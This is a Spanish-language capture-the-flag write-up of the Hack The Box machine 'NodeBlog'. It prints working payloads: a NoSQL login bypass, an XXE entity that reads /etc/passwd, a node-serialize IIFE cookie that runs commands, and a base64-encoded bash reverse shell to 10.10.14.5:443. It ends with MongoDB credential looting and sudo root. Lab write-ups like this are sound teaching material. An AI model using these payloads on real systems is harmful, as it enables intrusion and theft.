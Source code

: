 ```yaml
---
layout: single
title: NodeBlog - Hack The Box
excerpt: "Para resolver ésta máquina interceptamos la solicitud a la hora de iniciar sesión, logrando así manipular los campos & logrando consigo inyectar NoSQL malicioso para un usuario válido, logrando así burlar el sistema de inicio de sesión, para posterior a ello abusar de subidas de archivo en formato .xml convirtiéndolo en XXE, logrando ver el código fuente de la página web, para aprovecharnos de éste. Hacemos una cookie serialiada maliciosa para llevar a cabo un RCE y entablarnos una Reverse Shell, para posterior a ello enumerar credenciales en texto claro de la DB & aprovecharnos de los SUDOERS."
date: 2023-11-20
classes: wide
header:
  teaser: /assets/images/htb-writeup-nodeblog/nodeblog_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - NoSQL Injection (Authentication Bypass)
  - XXE File Read
  - NodeJS Deserialization Attack (IIFE Abusing)
  - Mongo Database Enumeration
  - abusing sudoers
---
```


Para resolver ésta máquina interceptamos la solicitud a la hora de iniciar sesión, logrando así manipular los campos & logrando consigo inyectar NoSQL malicioso para un usuario válido, logrando así burlar el sistema de inicio de sesión, para posterior a ello abusar de subidas de archivo en formato .xml convirtiéndolo en XXE, logrando ver el código fuente de la página web, para aprovecharnos de éste. Hacemos una cookie serialiada maliciosa para llevar a cabo un RCE y entablarnos una Reverse Shell, para posterior a ello enumerar credenciales en texto claro de la DB & aprovecharnos de los SUDOERS.

![](/assets/images/htb-writeup-nodeblog/nodeblog_logo.png)

# PortScan
__________
```
# Nmap 7.93 scan initiated Mon Nov 20 09:49:30 2023 as: nmap -sCV -p22,5000 -oN targeted 10.10.11.139
Nmap scan report for 10.10.11.139
Host is up (0.063s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 20 09:49:45 2023 -- 1 IP address (1 host up) scanned in 14.89 seconds
```

# Web Site
_______________
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120112841.png)

Realicé un **FUZZING** web para posibles directorios existentes en la máquina víctima, pero no encontré nada interesante, probé ingresando usuarios default típicos, y ví qué decía cuando un usuario era válido y cuando no, descubriendo así que el usuario "**admin**" existe, pero ninguna contraseña típica funcionó, por lo qué opté por interceptar esto con el Proxy **BurpSuite**.

# Proxy BurpSuite
___

Aquí empecé a probar distintas inyecciones de **DB's** , entre ellas NoSQL's, descubriendo qué era vulnerable a inyecciones **NoSQL**, pero con un body en formato Json y no DATA.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120113655.png)

Como conocemos un usuario **válido**, usamos la operativa "**not equal**" para hacer un ByPass de contraseña, logrando así entrar como Admin.

En resumen,  al usuario "**admin**" ser válido, y la contraseña no ser igual a "**test**" **ByPassareamos** ésto porque verdaderamente la contraseña **NO ES IGUAL** a "test." logrando así iniciar sesión y seteandonos una cookie.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120115202.png)

Qué por lo que parece es una cookie de sesión URL **encodeada**, y sí vamos a la web nos veríamos logueados.

![](Pasted image 20231120115651.png)


Vemos qué podemos subir archivo, así que intentamos subir un archivo cualquiera, por ejemplo un .txt a ver qué pasa...
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120120049.png)

Debemos subir un archivo en formato **.XML**, así qué se me ocurre ver si podemos tratar de llevar a cabo un **XXE** con una entidad maliciosa para leer el "**/etc/passwd**".

**PoC .xml:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 
 <post>
   <title>Example Post</title>
   <description>Example Description</description>
   <markdown>&xxe;</markdown>
 </post>
```

Una vez subido, vemos qué logramos leer el "**passwd**" gracias al **XXE**.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120120634.png)

Y también descubrimos que el usuario "**admin**" es un usuario válido del sistema.

Traté de leer sí existía la **"id_rsa"** de SSH, pero no encontré nada, pero curiosamente al enviar un cuerpo corrompido al servidor como solicitud de logueo, nos devolvería rutas existente como error.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120121359.png)

Nos reportaría rutas, lo qué me da a entender que son rutas donde está alojado el servidor, por ende veo varios **"/opt/blog"**, así que modifico mi **XXE** para leer del "**/opt/blog/server.js**" logrando así ver el código fuente.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120121703.png)

Nos chiva el código fuente qué por detrás **deserializa** la cookie **serializada**, para interpretarla, por lo qué se me ocurre de primer poner una cookie serializada maliciosa, qué a la hora de deserializarse por detrás haga lo qué me interese, investigando encontré qué podemos llevar a cabo en estas situaciones un **IIFE**.

**IIFE:** no es más qué mediante dos paréntesis colocado de forma específica en el código, ejecute ese comando colocado en los paréntesis antes de deserializar en éste caso la cookie.

[((Artículo sobre IIFE y como podemos explotar deserialización y serialización en Node JS))](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

**PoC** Payload para llevar a cabo el "**RCE**" mediante el **"IFFE"**:
```js
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('cmd',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Como vimos al principio, la cookie está **urlencodeada**, así qué este payload lo urlencodeamos para ponerlo como cookie en nuestro navegador, y a continuación estaré probando si logramos llevar a cabo la **RCE** seteando una cookie qué intente obtener un recurso desde la máquina víctima a mi máquina con "wget".
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120124717.png)

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120124740.png)

Por ende, estamos llevando a cabo el **RCE** éxitosamente, así que procederé a entablarme una **Reverse Shell** con el payload en base64.
```bash
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS80NDMgMD4mMQo= | base64 -d | bash',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Convertirmos en **URLENCODE**, seteamos eso como cookie de sesión, y al recargar obtendríamos nuestra **Reverse Shell**.
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125050.png)

Ya quedaría darle Tratamiento a la TTY, que sino sabes como te recomiendo [((LEER ÉSTE POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios
___
Sí vemos los puertos abiertos, veremos puertos qué de manera externa no teníamos acceso.
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125343.png)

Y sí indagamos en internet, veríamos que este puerto suele ser el de **MongoDB** por defecto, así que intentamos entrar...
```bash
mongo
```

Logrando así conectarnos con la DB, ahora deberíamos listar DB's que nos interesen con contenido de sus tablas, columnas...

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125522.png)

Encontrando así las credenciales del usuario actual, para posterior ver sus permisos SUDOERS.

```bash
sudo -l
```

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125604.png)

Viendo que podemos ejecutar lo que sea, es decir podemos convertirnos en Root con:
```bash
sudo su
```

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125651.png)
